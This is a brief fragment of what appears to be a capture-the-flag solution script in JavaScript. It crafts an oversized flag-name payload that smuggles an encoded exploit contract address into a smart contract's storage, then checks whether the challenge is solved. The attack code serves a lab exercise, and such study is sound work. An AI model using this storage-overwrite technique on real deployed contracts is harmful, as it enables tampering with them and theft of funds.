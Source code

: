```js
  const payload = slot.repeat(141) + Buffer.from(web3.eth.abi.encodeParameter("uint256", exploitAddress).slice(2), "hex").toString();
  await sendMethod(flags, flags.methods.setFlagName(FLAG_ID, payload));
  console.log("set flag name");

  console.log(await setup.methods.isSolved().call());
})();
```
